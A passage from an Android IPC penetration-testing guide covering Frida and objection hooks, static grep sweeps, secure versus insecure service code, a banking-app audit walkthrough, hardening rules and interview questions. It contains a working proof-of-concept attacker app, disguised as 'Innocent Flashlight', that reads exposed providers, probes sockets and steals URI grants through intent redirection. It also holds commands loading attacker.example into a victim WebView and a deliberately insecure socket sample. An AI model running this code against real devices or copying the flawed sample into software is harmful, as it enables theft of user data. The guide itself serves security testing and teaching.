                " callingPid=" + Binder.getCallingPid() +
                " oneway=" + ((flags & 1) === 1));
    return this.onTransact(code, data, reply, flags);
  };

  // ---------- LocalSocket ----------
  var LSS = Java.use("android.net.LocalServerSocket");
  LSS.$init.overload('java.lang.String').implementation = function (name) {
    console.log("[LocalServerSocket] ABSTRACT name=@" + name +
                "  <-- reachable by every app on the device");
    return this.$init(name);
  };

  // ---------- ServerSocket ----------
  var SS = Java.use("java.net.ServerSocket");
  SS.bind.overload('java.net.SocketAddress', 'int').implementation = function (a, b) {
    console.log("[ServerSocket.bind] " + a);
    return this.bind(a, b);
  };

  // ---------- Clipboard ----------
  var CM = Java.use("android.content.ClipboardManager");
  CM.setPrimaryClip.implementation = function (clip) {
    console.log("[clipboard.set] " + clip.toString());
    return this.setPrimaryClip(clip);
  };

  // ---------- ContentResolver ----------
  var CR = Java.use("android.content.ContentResolver");
  CR.query.overload('android.net.Uri', '[Ljava.lang.String;', 'java.lang.String',
                    '[Ljava.lang.String;', 'java.lang.String')
    .implementation = function (u, p, s, sa, so) {
      console.log("[query] " + u + " sel=" + s + " sort=" + so);
      return this.query(u, p, s, sa, so);
    };
});
```

The second, [`scripts/hook-binder-identity.js`](scripts/hook-binder-identity.js), specifically hunts
for the identity bugs in Section 3.21 by logging every `getCallingUid`, `getCallingPid`,
`clearCallingIdentity` and `restoreCallingIdentity` call with a stack trace, so you can see whether a
check happened before a clear.

### 7.4 Objection

```text
# objection -g com.example.app explore
android hooking list services
android hooking list activities
android hooking list receivers
android intent launch_activity com.example.app.WebViewActivity
android intent launch_service com.example.app.AdminService
android hooking watch class_method android.content.Intent.getStringExtra --dump-args --dump-return --dump-backtrace
android hooking watch class_method android.content.ContextWrapper.startActivity --dump-args --dump-backtrace
```

### 7.5 Native-level tracing

```bash
# adb shell as root — every socket operation the app performs
strace -f -e trace=socket,bind,connect,accept,accept4,listen,sendto,recvfrom \
       -p $(pidof -s com.example.app)
```

```bash
# adb shell as root — every binder ioctl (very noisy; filter hard)
strace -f -e trace=ioctl -p $(pidof -s com.example.app) 2>&1 | grep -i binder
```

```bash
# adb shell as root — kernel-side binder tracing, when available
mount -t debugfs none /sys/kernel/debug 2>/dev/null
cat /sys/kernel/debug/binder/transactions
cat /sys/kernel/debug/binder/stats
ls /sys/kernel/debug/binder/proc/
cat /sys/kernel/debug/binder/proc/$(pidof -s com.example.app)
```

`/sys/kernel/debug/binder/` is the single most informative place on the device for Binder work. It
lists every process's binder state: nodes it owns, references it holds, pending transactions, and the
thread pool's size. On many production kernels debugfs is not mounted or is unreadable even to root
under SELinux; try it, and move on if it fails.

### 7.6 Verifying a finding from an unprivileged context

```bash
# host — the discipline that makes findings defensible
# 1. Reproduce from adb shell (proves the mechanism)
adb shell am start -n com.example.app/.WebViewActivity --es url "https://attacker.example/"

# 2. Reproduce from Drozer (proves an ordinary app can do it)
# drozer> run app.activity.start --component com.example.app com.example.app.WebViewActivity --extra string url https://attacker.example/

# 3. Reproduce from a purpose-built APK (proves it on the exact API level in scope)
./gradlew -p examples/attacker-app assembleDebug
adb install -r examples/attacker-app/build/outputs/apk/debug/attacker-app-debug.apk
adb shell am start -n com.attacker.poc/.MainActivity
```

Record which of the three worked. If only step 1 works, you have found a `shell` privilege, not an
app vulnerability, and you should say so.

---

## 8. Static Analysis

### 8.1 The manifest, read properly

```bash
# host
apktool d -f app.apk -o work/
# cross-check, because a crafted APK can make apktool and aapt2 disagree
aapt2 dump xmltree app.apk --file AndroidManifest.xml > manifest-aapt2.txt
```

Checklist for each component:

| Check | Why it matters |
|---|---|
| `android:exported` present and explicit | Absent + intent-filter = exported on older targets |
| `android:permission` present | And what is its `protectionLevel`? |
| `protectionLevel` of every custom permission | `normal` and `dangerous` are not access control against a determined app; only `signature` is |
| `<intent-filter>` contents | Actions, categories, and data — the reachable surface |
| Provider `android:authorities` | The `content://` prefix to test |
| Provider `grantUriPermissions` + `<grant-uri-permission>` | `pathPattern=".*"` grants everything |
| `<path-permission>` | Frequently used to open a hole in an otherwise-protected provider |
| `android:process` | A `:remote` process implies internal IPC, which implies a socket or a bound service |
| `android:taskAffinity` | Non-default affinity enables task-hijack scenarios |
| `android:launchMode` | `singleTask`/`singleInstance` interacts with task hijacking |
| `android:sharedUserId` | Sandbox boundary removed between the sharing apps |
| `android:allowBackup` | Data extraction path, not strictly IPC but adjacent |
| `<queries>` | Which other packages the app looks for — reveals intended IPC partners |
| `android:debuggable` | `run-as` and DevTools exposure |

### 8.2 Grep patterns for every mechanism

```bash
# host — run over jadx output (out/sources/) and smali (out/smali*/)

# --- Exported-component handling ---
grep -rn "getIntent()" out/sources/
grep -rn "getParcelableExtra\|getSerializableExtra\|getBundleExtra" out/sources/
grep -rnE "startActivit(y|ies)\(|startService\(|bindService\(|sendBroadcast\(|sendOrderedBroadcast\(" out/sources/

# --- Intent redirection (correlate these two lists) ---
grep -rln "getParcelableExtra" out/sources/ | sort > /tmp/a
grep -rlnE "startActivity|startService|bindService|sendBroadcast" out/sources/ | sort > /tmp/b
comm -12 /tmp/a /tmp/b

# --- PendingIntent mutability ---
grep -rn "PendingIntent.get" out/sources/
grep -rn "FLAG_MUTABLE\|FLAG_IMMUTABLE" out/sources/

# --- Sockets ---
grep -rn "LocalServerSocket\|LocalSocket\|LocalSocketAddress" out/sources/
grep -rn "Namespace.ABSTRACT\|Namespace.FILESYSTEM" out/sources/
grep -rnE "new ServerSocket\(|ServerSocketChannel\.open|NanoHTTPD|AsyncHttpServer|MockWebServer" out/sources/
grep -rn "0\.0\.0\.0\|127\.0\.0\.1\|InetAddress.getLoopbackAddress" out/sources/

# --- Shared memory ---
grep -rn "MemoryFile\|SharedMemory\|ashmem\|memfd\|ParcelFileDescriptor" out/sources/

# --- Storage exposure ---
grep -rn "MODE_WORLD_READABLE\|MODE_WORLD_WRITEABLE" out/sources/
grep -rn "setReadable(true, *false)\|setWritable(true, *false)" out/sources/
grep -rn "getExternalStorageDirectory\|getExternalFilesDir\|Environment.DIRECTORY" out/sources/

# --- Clipboard ---
grep -rn "ClipboardManager\|setPrimaryClip\|getPrimaryClip\|ClipData" out/sources/

# --- Settings as input ---
grep -rn "Settings.Secure.getString\|Settings.Global.getInt\|Settings.System" out/sources/

# --- Identity handling ---
grep -rn "getCallingUid\|getCallingPid\|getCallingPackage\|clearCallingIdentity" out/sources/
grep -rn "checkCallingPermission\|enforceCallingPermission\|checkCallingOrSelfPermission" out/sources/

# --- Provider implementation risks ---
grep -rn -A10 "public Cursor query" out/sources/ | grep -nE "rawQuery|execSQL|\+ *selection|\+ *sortOrder"
grep -rn -A10 "openFile\|openAssetFile" out/sources/

# --- Native ---
grep -rn "System.loadLibrary\|System.load" out/sources/
```

### 8.3 A reusable static sweep script

The complete implementation is [`scripts/ipc-surface-report.py`](scripts/ipc-surface-report.py). It
parses `AndroidManifest.xml`, produces a markdown table of every component with export status and
permission protection level, and then runs the grep corpus above against the decompiled sources,
emitting a prioritised list of candidate findings. Run it as the first thing after decompiling.

### 8.4 Reading the manifest for what is *not* there

Some of the most valuable static observations are absences:

- An `exported="true"` component with **no** `android:permission` and **no** validation code.
- An `autoVerify="true"` intent filter with **no** corresponding, correct `assetlinks.json`.
- A `PendingIntent` created with **no** explicit mutability flag in an app targeting API 30 or below.
- A provider with `grantUriPermissions="true"` and **no** `<grant-uri-permission>` path restriction.
- A `Stub` implementation with **no** `getCallingUid` anywhere in the file.
- A `registerReceiver` call with **no** export flag in an app targeting below API 33.

---

## 9. Examples

### 9.1 Simple — a correctly protected bound service

The baseline everything else is measured against. Two apps by the same developer, signed with the
same key, one exposing a service to the other.

```xml
<!-- Provider app: AndroidManifest.xml -->
<permission
    android:name="com.example.core.permission.SYNC"
    android:protectionLevel="signature" />

<service
    android:name=".SyncService"
    android:exported="true"
    android:permission="com.example.core.permission.SYNC" />
```

```java
// Provider app: SyncService.java
public class SyncService extends Service {

    private final ISync.Stub binder = new ISync.Stub() {
        @Override public String getStatus() {
            enforceCaller();
            return SyncEngine.status();
        }
        @Override public void requestSync(String account) {
            enforceCaller();
            Objects.requireNonNull(account);
            if (!ACCOUNT_PATTERN.matcher(account).matches()) {
                throw new IllegalArgumentException("bad account");
            }
            SyncEngine.enqueue(account);
        }
    };

    /**
     * Defence in depth. The manifest permission already restricts callers to
     * apps signed with our key, but a per-method check means the service is
     * still safe if the manifest is ever edited, and it makes the intent
     * explicit to the next person who reads this file.
     */
    private void enforceCaller() {
        int uid = Binder.getCallingUidOrThrow();
        if (uid == Process.myUid()) return;
        if (checkCallingPermission("com.example.core.permission.SYNC")
                != PackageManager.PERMISSION_GRANTED) {
            throw new SecurityException("uid " + uid + " lacks SYNC permission");
        }
    }

    @Override public IBinder onBind(Intent intent) { return binder; }
}
```

```java
// Consumer app: binding to it
Intent i = new Intent("com.example.core.SYNC").setPackage("com.example.core");
bindService(i, connection, Context.BIND_AUTO_CREATE);
```

```xml
<!-- Consumer app must declare the permission to be granted it -->
<uses-permission android:name="com.example.core.permission.SYNC" />
```

Three properties make this safe: the permission is `signature`, so only the developer's own
apps — signed with the same key — can ever hold it; the service is addressed explicitly, so no
third party can intercept the bind; and every method validates both the caller and the arguments.

### 9.2 Intermediate — an unsafe channel and its fix, side by side

An in-app "remote control" channel between the main process and a `:media` process.

```java
// BEFORE — abstract socket, no authentication. Reachable by every app.
public class MediaBridge {
    public void startServer() throws IOException {
        LocalServerSocket ss = new LocalServerSocket("com.example.player.bridge");
        new Thread(() -> {
            while (true) {
                LocalSocket c = ss.accept();
                String cmd = readLine(c);
                if (cmd.startsWith("PLAY ")) player.play(cmd.substring(5)); // any URL
                if (cmd.equals("TOKEN"))   write(c, Session.token());       // secret!
            }
        }).start();
    }
}
```

```java
// AFTER — a non-exported bound service. The platform enforces the boundary.
public class MediaBridgeService extends Service {
    private final IMediaBridge.Stub binder = new IMediaBridge.Stub() {
        @Override public void play(String url) {
            if (Binder.getCallingUidOrThrow() != Process.myUid()) {
                throw new SecurityException("not our process");
            }
            Uri u = Uri.parse(url);
            if (!"https".equals(u.getScheme()) || !ALLOWED.contains(u.getHost())) {
                throw new IllegalArgumentException("url not permitted");
            }
            player.play(u);
        }
        // no token accessor exists at all — the media process fetches its own
    };
    @Override public IBinder onBind(Intent i) { return binder; }
}
```

```xml
<service android:name=".MediaBridgeService"
         android:exported="false"
         android:process=":media" />
```

The improvement is not "we added a check". It is that the *platform* now enforces the boundary, and
the check is a second line of defence rather than the only one. Whenever you can replace hand-rolled
IPC with a non-exported bound service, do it.

### 9.3 Advanced — a complete attacker application

This is the artefact that turns "theoretically reachable" into "demonstrably reachable". The full
Gradle project is in [`examples/attacker-app/`](examples/attacker-app/); here is the core.

```xml
<!-- examples/attacker-app/src/main/AndroidManifest.xml -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.attacker.poc">

    <!-- The ONLY permission. Granted silently at install on every version. -->
    <uses-permission android:name="android.permission.INTERNET" />

    <!-- Needed on API 30+ to see the target package at all -->
    <queries>
        <package android:name="com.example.app" />
        <provider android:authorities="com.example.app.provider" />
    </queries>

    <application android:label="Innocent Flashlight">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <!-- Where a stolen URI grant lands -->
        <activity android:name=".GrantSink" android:exported="true" />

        <!-- Passive broadcast eavesdropper -->
        <receiver android:name=".Eavesdropper" android:exported="true">
            <intent-filter android:priority="2147483647">
                <action android:name="com.example.app.LOCATION_UPDATE" />
                <action android:name="com.example.app.SESSION_READY" />
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

```java
// examples/attacker-app/src/main/java/com/attacker/poc/MainActivity.java
package com.attacker.poc;

import android.app.Activity;
import android.content.*;
import android.database.Cursor;
import android.net.*;
import android.os.*;
import android.util.Log;
import java.io.*;
import java.net.*;

/**
 * Proof-of-concept attacker application.
 *
 * Every technique here is available to any app the user installs, with no
 * dangerous permissions and no user interaction beyond opening the app.
 * Each probe reports success or failure so the output doubles as evidence.
 */
public class MainActivity extends Activity {

    private static final String TAG = "poc";
    private static final String TARGET = "com.example.app";
    private final StringBuilder report = new StringBuilder();

    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        probeProvider();
        probeAbstractSocket();
        probeLocalhost();
        probeIntentRedirection();
        probeBoundService();
        Log.i(TAG, report.toString());
        setContentView(new android.widget.TextView(this) {{ setText(report); }});
    }

    private void note(String s) { report.append(s).append('\n'); Log.i(TAG, s); }

    /** 1. Can we read the target's ContentProvider directly? */
    private void probeProvider() {
        Uri uri = Uri.parse("content://" + TARGET + ".provider/users");
        try (Cursor c = getContentResolver().query(uri, null, null, null, null)) {
            if (c == null) { note("[provider] null cursor"); return; }
            note("[provider] READABLE, " + c.getCount() + " rows, columns="
                 + java.util.Arrays.toString(c.getColumnNames()));
            if (c.moveToFirst()) {
                StringBuilder row = new StringBuilder();
                for (int i = 0; i < c.getColumnCount(); i++) {
                    row.append(c.getColumnName(i)).append('=')
                       .append(c.getString(i)).append(' ');
                }
                note("[provider] first row: " + row);
            }
        } catch (SecurityException e) {
            note("[provider] denied: " + e.getMessage());
        } catch (Exception e) {
            note("[provider] error: " + e);
        }
    }

    /** 2. Can we connect to an abstract-namespace UNIX socket? No permission needed. */
    private void probeAbstractSocket() {
        String[] candidates = {
            TARGET + ".ipc", TARGET + "_ipc", TARGET, "chrome_devtools_remote"
        };
        for (String name : candidates) {
            LocalSocket s = new LocalSocket();
            try {
                s.connect(new LocalSocketAddress(name, LocalSocketAddress.Namespace.ABSTRACT));
                s.setSoTimeout(2000);
                note("[abstract] CONNECTED to @" + name);
                s.getOutputStream().write("{\"cmd\":\"ping\"}\n".getBytes("UTF-8"));
                s.getOutputStream().flush();
                byte[] buf = new byte[512];
                int n = s.getInputStream().read(buf);
                if (n > 0) note("[abstract] reply: " + new String(buf, 0, n, "UTF-8"));
            } catch (IOException e) {
                note("[abstract] @" + name + " -> " + e.getMessage());
            } finally {
                try { s.close(); } catch (IOException ignored) { }
            }
        }
    }

    /** 3. Is the target listening on loopback? Needs only INTERNET. */
    private void probeLocalhost() {
        int[] ports = { 8080, 8081, 8888, 9090, 5000, 3000, 1080, 8118 };
        for (int p : ports) {
            try (Socket s = new Socket()) {
                s.connect(new InetSocketAddress("127.0.0.1", p), 300);
                note("[localhost] port " + p + " OPEN");
                s.getOutputStream().write(
                    ("GET / HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: close\r\n\r\n")
                        .getBytes("UTF-8"));
                BufferedReader r = new BufferedReader(
                        new InputStreamReader(s.getInputStream()));
                String line = r.readLine();
                note("[localhost] " + p + " says: " + line);
            } catch (IOException e) {
                /* closed — normal */
            }
        }
    }

    /** 4. Intent redirection: make the target grant US a URI permission. */
    private void probeIntentRedirection() {
        Intent inner = new Intent(Intent.ACTION_VIEW);
        inner.setClassName(getPackageName(), getPackageName() + ".GrantSink");
        inner.setData(Uri.parse("content://" + TARGET + ".provider/users/1"));
        inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

        Intent outer = new Intent(Intent.ACTION_SEND);
        outer.setType("image/*");
        outer.setClassName(TARGET, TARGET + ".ShareHandlerActivity");
        outer.putExtra("next_intent", inner);
        try {
            startActivity(outer);
            note("[redirect] outer intent delivered — check GrantSink");
        } catch (Exception e) {
            note("[redirect] failed: " + e);
        }
    }

    /** 5. Bind an exported service and enumerate transaction codes. */
    private void probeBoundService() {
        Intent i = new Intent(TARGET + ".ADMIN").setPackage(TARGET);
        boolean ok = bindService(i, new ServiceConnection() {
            @Override public void onServiceConnected(ComponentName n, IBinder b) {
                note("[service] bound to " + n.flattenToString()
                     + " descriptor=" + safeDescriptor(b));
                // Probe transaction codes 1..20 with an empty parcel and record
                // which ones do not throw. This reveals the interface's shape.
                for (int code = 1; code <= 20; code++) {
                    Parcel data = Parcel.obtain(), reply = Parcel.obtain();
                    try {
                        data.writeInterfaceToken(safeDescriptor(b));
                        boolean r = b.transact(code, data, reply, 0);
                        note("[service] code " + code + " -> " + r
                             + " replySize=" + reply.dataSize());
                    } catch (Exception e) {
                        note("[service] code " + code + " -> " + e.getClass().getSimpleName());
                    } finally { data.recycle(); reply.recycle(); }
                }
            }
            @Override public void onServiceDisconnected(ComponentName n) { }
        }, Context.BIND_AUTO_CREATE);
        note("[service] bindService returned " + ok);
    }

    private static String safeDescriptor(IBinder b) {
        try { return b.getInterfaceDescriptor(); }
        catch (RemoteException e) { return "?"; }
    }
}
```

```java
// examples/attacker-app/src/main/java/com/attacker/poc/GrantSink.java
package com.attacker.poc;

import android.app.Activity;
import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;

/** Receives the redirected Intent and uses the stolen URI grant. */
public class GrantSink extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        Uri u = getIntent().getData();
        Log.i("poc", "GrantSink got uri=" + u + " flags=0x"
                     + Integer.toHexString(getIntent().getFlags()));
        if (u == null) { finish(); return; }
        try (Cursor c = getContentResolver().query(u, null, null, null, null)) {
            if (c != null && c.moveToFirst()) {
                StringBuilder sb = new StringBuilder("STOLEN: ");
                for (int i = 0; i < c.getColumnCount(); i++) {
                    sb.append(c.getColumnName(i)).append('=')
                      .append(c.getString(i)).append(' ');
                }
                Log.i("poc", sb.toString());
            } else {
                Log.i("poc", "grant present but no rows");
            }
        } catch (SecurityException e) {
            Log.i("poc", "no grant: " + e.getMessage());
        }
        finish();
    }
}
```

Build and run:

```bash
# host
./gradlew -p examples/attacker-app assembleDebug
adb install -r examples/attacker-app/build/outputs/apk/debug/attacker-app-debug.apk
adb logcat -c
adb shell am start -n com.attacker.poc/.MainActivity
adb logcat -s poc:I
```

> **🔍 Pentester's Note**
> Keep a generic version of this app in your toolkit with the target package name in a
> `BuildConfig` field, so a rebuild for a new target takes thirty seconds. It answers the "can an
> ordinary app really do this?" question definitively, and a client engineer can install it and see
> the same output — which ends arguments about whether a finding is real.

### 9.4 Real application — auditing a banking app's IPC surface

A realistic walkthrough of a first hour against a banking APK.

```bash
# host — step 0: ground truth
aapt2 dump badging bank.apk | grep -E "package:|targetSdk|sdkVersion"
# package: name='com.bank.mobile' versionCode='4210' versionName='8.21.0'
# sdkVersion:'24'   targetSdkVersion:'33'
apksigner verify --print-certs bank.apk | grep SHA-256
```

`targetSdk 33` means: explicit `exported` required, `PendingIntent` mutability required, runtime
receivers must declare export. Several classes of accidental exposure are therefore already ruled
out — good, that narrows the search.

```bash
# host — step 1: manifest inventory
apktool d -f bank.apk -o work/ >/dev/null
grep -nE "exported=\"true\"" work/AndroidManifest.xml
```

Suppose that yields:

| Component | Type | Permission | Notes |
|---|---|---|---|
| `.ui.DeepLinkActivity` | activity | none | `<data android:scheme="bankapp"/>` and `https://m.bank.com` with `autoVerify` |
| `.ui.WebActivity` | activity | none | no intent filter, but `exported="true"` |
| `.push.FcmReceiver` | receiver | `com.google.android.c2dm.permission.SEND` | fine, that permission is system-held |
| `.provider.FileSharingProvider` | provider | none, `grantUriPermissions="true"` | `FileProvider` subclass |

Two immediate leads: `WebActivity` exported with no filter and no permission is almost certainly an
oversight, and `DeepLinkActivity` is the routing surface.

```bash
# host — step 2: what does DeepLinkActivity do with the URI?
jadx -d out/ bank.apk >/dev/null 2>&1
sed -n '1,200p' out/sources/com/bank/mobile/ui/DeepLinkActivity.java
grep -rn -A5 "getParcelableExtra\|getIntent()" out/sources/com/bank/mobile/ui/
```

```bash
# host — step 3: does assetlinks actually verify?
curl -sSI https://m.bank.com/.well-known/assetlinks.json
curl -sS  https://m.bank.com/.well-known/assetlinks.json | python3 -m json.tool
adb shell pm get-app-links com.bank.mobile
```

If `pm get-app-links` shows `verified` for the host, custom-scheme hijacking of `https://` links is
off the table — but `bankapp://` is still a custom scheme with **no** verification, so if any
sensitive flow uses it, that flow is hijackable.

```bash
# host — step 4: live enumeration
adb install -r bank.apk
adb shell monkey -p com.bank.mobile -c android.intent.category.LAUNCHER 1
sleep 6
adb shell "cat /proc/net/unix | grep -i '@'"
adb shell "cat /proc/net/tcp | awk 'NR>1 && \$4==\"0A\"'"
adb shell "ls -l /proc/$(adb shell pidof -s com.bank.mobile | tr -d '\r')/fd" | grep -i socket
```

```bash
# host — step 5: exercise the two leads
adb shell am start -n com.bank.mobile/.ui.WebActivity --es url "https://attacker.example/"
adb shell am start -a android.intent.action.VIEW -d "bankapp://transfer?to=999&amount=1"
adb logcat -c && adb shell am start -a android.intent.action.VIEW \
  -d "bankapp://webview?url=https%3A%2F%2Fattacker.example%2F" && adb logcat -d | grep -i webview
```

```bash
# host — step 6: prove it as an ordinary app, and capture evidence
adb install -r attacker-poc.apk
adb logcat -c
adb shell am start -n com.attacker.poc/.MainActivity
adb logcat -d -s poc:I | tee evidence/bank-ipc-poc.txt
adb exec-out screencap -p > evidence/bank-webview-attacker-content.png
```

The output of steps 5 and 6, plus the `dumpsys package` excerpt and the device fingerprint, is a
complete finding.

### 9.5 Enterprise — hardening an IPC surface by design

For a client asking "how should we build this?", the answer is a set of rules, not a list of fixes.

**Rule 1 — Default to `exported="false"`.** Every component starts closed. Exporting is a deliberate
act that requires a written justification in the code review.

**Rule 2 — Every exported component has a `signature` permission unless it is genuinely public.**
"Genuinely public" means the share sheet, a deep link, or an integration with a third party you do
not control. Everything else, including your own companion apps, gets a `signature` permission.

```xml
<permission android:name="com.example.permission.INTERNAL"
            android:protectionLevel="signature" />
```

**Rule 3 — Never forward an `Intent`, `PendingIntent`, `ComponentName`, or `Uri` received from a
caller.** Accept an enumerated token and construct the destination yourself. Make this a lint rule.

```kotlin
// A custom Android Lint detector catching the pattern at build time
class IntentRedirectionDetector : Detector(), SourceCodeScanner {
    override fun getApplicableMethodNames() = listOf(
        "startActivity", "startService", "bindService", "sendBroadcast")
    // report when the argument's origin is getParcelableExtra / getIntent
}
```

**Rule 4 — All IPC entry points funnel through one validation layer.**

```kotlin
// A single place where untrusted input becomes trusted domain objects.
object IpcGate {
    fun requireInternalCaller() {
        val uid = Binder.getCallingUidOrThrow()
        if (uid != Process.myUid() && !SignatureCheck.sameSigningKey(uid)) {
            throw SecurityException("uid $uid rejected")
        }
    }

    fun sanitizeUrl(raw: String?): HttpUrl =
        raw?.toHttpUrlOrNull()
            ?.takeIf { it.scheme == "https" && it.host in ALLOWED_HOSTS }
            ?: throw IllegalArgumentException("url rejected")

    fun sanitizeRoute(raw: String?): Route =
        Route.entries.firstOrNull { it.token == raw } ?: Route.HOME
}
```

**Rule 5 — No hand-rolled sockets.** Any need for cross-process communication inside the app is met
by a non-exported bound service. Sockets require an architecture review and a documented
`SO_PEERCRED` check.

**Rule 6 — Debug surfaces live in a debug source set.** Not behind `if (BuildConfig.DEBUG)` — in
`src/debug/java/`, so the code is not in the release DEX at all and cannot be reached by any means.

**Rule 7 — CI gates.** Fail the build on: any new `exported="true"` without an accompanying
permission; any `PendingIntent` without an explicit mutability flag; any `LocalServerSocket`; any
`MODE_WORLD_*`; any `sendBroadcast` without a permission or `setPackage`.

```bash
#!/usr/bin/env bash
# ci/ipc-gate.sh — fail the build on regressions in the IPC surface
set -euo pipefail
APK="$1"
apktool d -f "$APK" -o /tmp/gate >/dev/null

fail=0
check() { if grep -qE "$1" "$2"; then echo "FAIL: $3"; fail=1; fi; }

check 'android:exported="true"(?![^>]*android:permission)' /tmp/gate/AndroidManifest.xml \
      "exported component without a permission"
grep -rq "LocalServerSocket" /tmp/gate/smali* && { echo "FAIL: LocalServerSocket present"; fail=1; }
grep -rq "MODE_WORLD_READABLE\|MODE_WORLD_WRITEABLE" /tmp/gate/smali* && { echo "FAIL: world-mode file"; fail=1; }
exit $fail
```

**Rule 8 — Threat-model each exported component once, in writing.** One paragraph per component:
who is meant to call it, what an attacker gains if they call it, and which check stops them. If the
paragraph cannot be written, the component should not be exported.

---

## 10. Common Interview Questions

### Beginner

**Q: What is IPC and why does Android need it?**
Inter-process communication is any mechanism that lets one process transfer data to, or trigger an
action in, another. Android needs it because every app runs in its own process under its own UID and
cannot touch another process's memory or files. Every framework API an app calls —
`PackageManager`, `LocationManager`, `ActivityManager` — is a proxy that forwards the call over
Binder to `system_server`. Without IPC there is no framework and no permission model.

**Q: Name five IPC mechanisms on Android.**
Binder (the substrate), Intents (delivered over Binder via `ActivityManagerService`),
`ContentProvider`s, `BroadcastReceiver`s, and bound services with AIDL or `Messenger`. Bonus marks
for naming a non-framework one: UNIX domain sockets, localhost TCP sockets, shared files, or shared
memory.

**Q: What does `android:exported` do?**
It declares whether a component can be started or accessed by another application. If it is false,
only the same app (same UID) can reach the component. Since `targetSdk` 31 an explicit value is
mandatory for any component that declares an intent filter.

**Q: What is the difference between an explicit and an implicit Intent?**
An explicit Intent names the exact target component (package plus class). An implicit Intent
describes an action and lets the system find a matching component from the intent filters declared
in installed apps' manifests. Implicit Intents can be resolved by an app you did not anticipate,
which is why sensitive data must never travel in one.

### Intermediate

**Q: An app declares `exported="false"` on an Activity. Can another app ever start it?**
Not directly. But it can be started *indirectly* if any exported component of the same app forwards
an attacker-supplied Intent to it — the confused-deputy / intent-redirection pattern. The framework's
check is on the UID making the `startActivity` call, and once inside the app's process that UID is
the app's own.

**Q: Why is a `normal`-protection custom permission not a security control?**
Because any application can request a `normal` permission in its manifest and the system grants it
automatically at install time with no user prompt. Only `signature` protection restricts access to
apps signed with the same certificate.

**Q: What is the practical difference between `Binder.getCallingUid()` and `Binder.getCallingPid()`?**
`getCallingUid()` returns the caller's Linux UID, taken by the kernel from the calling task's
credentials and copied into the transaction. It cannot be forged and it is stable for the lifetime of
the app's installation, so it is safe to authorise on. `getCallingPid()` returns a process ID, which
identifies a process that may exit at any moment; PID numbers are recycled, so any check that reads
the PID and then looks something up about it is subject to a time-of-check-to-time-of-use race. Use
the PID for logging only.

**Q: An app has a `LocalServerSocket("myapp_ipc")`. Who can connect?**
Every application on the device, subject only to SELinux. The single-string constructor uses the
Linux abstract namespace, which has no filesystem entry and therefore no permissions. The developer
almost certainly believed it was private.

**Q: Why is a service listening on `127.0.0.1` a real finding?**
Because `INTERNET` is a `normal` permission granted silently at install to essentially every app, so
"reachable on loopback" is equivalent to "reachable by any app on the device". If the service is
bound to `0.0.0.0` rather than `127.0.0.1` it is additionally reachable from the local network. In
both cases the only control is whatever authentication the service itself implements, which in
practice is usually none.

### Senior

**Q: Walk me through exactly what happens when app A calls `startActivity` on an exported activity
in app B.**
App A's `startActivity` reaches `Instrumentation.execStartActivity`, which makes a Binder call to
`ActivityTaskManagerService`. The transaction descends through `IPCThreadState::transact` to
`ioctl(BINDER_WRITE_READ)` on `/dev/binder`; the driver copies the parcel into `system_server`'s
mmap'd buffer and stamps A's UID and PID from the kernel's task credentials. In `system_server`,
`ActivityStarter` resolves the component through `PackageManagerService` and calls
`ActivityManagerService.checkComponentPermission`, which allows the start if the caller is
root/system, if the caller's UID equals the component's owning UID, or if the component is exported
and the caller holds any declared permission. If allowed, AMS makes a Binder call into B's process;
`ActivityThread` instantiates the Activity and runs `onCreate`, where `getIntent()` returns the
attacker-controlled Intent verbatim. No further platform validation of the Intent's contents occurs.

**Q: Explain the confused deputy problem with a concrete Android example.**
Give the URI-grant example: an exported activity reads an `Intent` from an extra and calls
`startActivity` on it. An attacker supplies an inner Intent targeting their own component with
`FLAG_GRANT_READ_URI_PERMISSION` and a `content://` URI belonging to the victim app's non-exported
provider. Because the `startActivity` call is made *by the victim app*, the framework evaluates the
grant with the victim as the granter and issues a legitimate read permission to the attacker. The
victim app was not compromised; it was confused about whose authority it was exercising.

**Q: What are the vulnerability patterns around `clearCallingIdentity`?**
Four: clearing before performing the caller's permission check, so the check evaluates the service
against itself; leaving the cleared window too wide so that attacker-influenced operations run with
elevated identity; omitting the `finally` so an exception leaks elevated identity into the next
transaction on a pooled binder thread; and mismatched or non-LIFO restore calls. All four are found
by reading every `clearCallingIdentity` call site and asking where the check was, how wide the
window is, and whether the restore is guaranteed.

**Q: A `ContentProvider` is `exported="false"`. Is its data safe?**
Not necessarily. Three routes remain: another app can obtain a URI grant, either legitimately or via
intent redirection through an exported component of the same app; a `<path-permission>` element can
loosen a specific path; and if the app uses `sharedUserId` with a second app, that app has full
access with no boundary at all. Also confirm `android:grantUriPermissions` and its
`<grant-uri-permission>` children, because a `pathPattern` of `.*` grants across the whole authority.

**Q: You find `startActivity(getIntent().getParcelableExtra("i"))` in an exported activity. How do
you decide the severity?**
By walking the reach-through. Enumerate what the forwarded Intent can reach: non-exported activities
and their behaviour, non-exported services, and URI grants on the app's own providers. If it reaches
only components that were already exported, it is not a finding and I would say so. If it reaches an
internal WebView, a component handling authentication, or a grant on a provider holding credentials,
it is High or Critical. I would also confirm the flag-stripping question: whether the app removes
`FLAG_GRANT_*` before forwarding.

### Staff Engineer

**Q: Design the IPC architecture for a suite of four apps by the same vendor that must share data
and drive each other.**
Expect: a single, versioned AIDL surface hosted by one "core" app, declared `exported="true"` with a
`signature`-protection permission so only same-key apps can bind. Per-method caller verification by
signing certificate rather than package name, using `PackageManager.checkSignatures` or, better,
`hasSigningCertificate` with a pinned digest so a key rotation is an explicit decision. All data
exchange by `ContentProvider` with `exported="false"` and explicit, short-lived, path-scoped URI
grants issued by the core app — never `grantUriPermissions` with a wildcard. No `sharedUserId`, ever,
because it collapses the four sandboxes into one and cannot be undone. A single input-validation
layer at every entry point. Versioning strategy for the AIDL interface, since apps update
independently and an old client will call a new service. And an explicit statement of what happens
when a user has only some of the four apps installed.

**Q: How would you build automated detection for intent redirection across a 2-million-line codebase?**
Expect a taint-analysis framing: sources are `getIntent()`, `getParcelableExtra`, `getData`,
